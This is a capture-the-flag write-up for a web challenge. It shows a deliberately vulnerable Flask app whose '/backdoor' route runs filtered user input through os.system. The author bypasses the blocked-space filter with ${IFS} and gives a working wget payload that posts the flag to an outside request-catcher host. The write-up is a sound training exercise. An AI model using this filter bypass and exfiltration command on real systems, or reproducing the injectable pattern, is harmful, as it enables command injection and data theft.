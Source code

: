 # Cig 1
### Web - Easy+

- So continuing on last challenge but with more pepper! we have some blocked characters `blocked = \[";", "&", "``", "|", " ", "'", '"', ">", "<"\]`
- ![bdbc6d2e7d287e278e9ecadb0bda6e51.png](bdbc6d2e7d287e278e9ecadb0bda6e51.png)

<details>
<summary>Reveal Code</summary>
    
```python

from flask import Flask, render_template, request, redirect
import os
import re
import string

app = Flask(\_\_name\_\_)


@app.route("/setenv", methods=\["GET"\])
def setenv():
    var = request.args.get("var")
    value = request.args.get("value")
    if var is None or var is None:
        return redirect("/")

    os.environ\[var\] = value
    # Harmless logging technique
    os.system("env > /tmp/env.txt")
    return redirect("/")


@app.route("/backdoor", methods=\["GET"\])
def cmd():
    blocked = \[";", "&", "`", "|", " ", "'", '"', ">", "<"\]
    cmd = request.args.get("cmd")
    if cmd is None:
        return redirect("/")

    for b in blocked:
        if b in cmd:
            return redirect("/")

    os.system(f"bash -c '{cmd}'")
    return redirect("/")


@app.route("/")
def show\_source\_code():
    with open(\_\_file\_\_, "r") as f:
        source_code = f.read()
    return render\_template("hello.html", source\_code=source_code)


if \_\_name\_\_ == "\_\_main\_\_":
    port = int(os.environ.get("PORT", 5000))
    app.run(debug=False, host="0.0.0.0", port=port)
```
</details>

- So now we have to bypass this! let's go!
- our last payload from cig 0 works all good except we can't use spaces! haha guess what I saw a John Hammod video some time ago about this issue! I introduce to you the `${IFS}` environment var! which is basically a whitespace! so now we just need to replace all the spaces in our payload with that
- `/backdoor?cmd=wget${IFS}--post-data=$(echo${IFS}$FLAG)${IFS}ayham.requestcatcher.com/` here we go!
- ![c2b117f40256e1387b1a181df1547b00.png](c2b117f40256e1387b1a181df1547b00.png)
- VOILA!!!
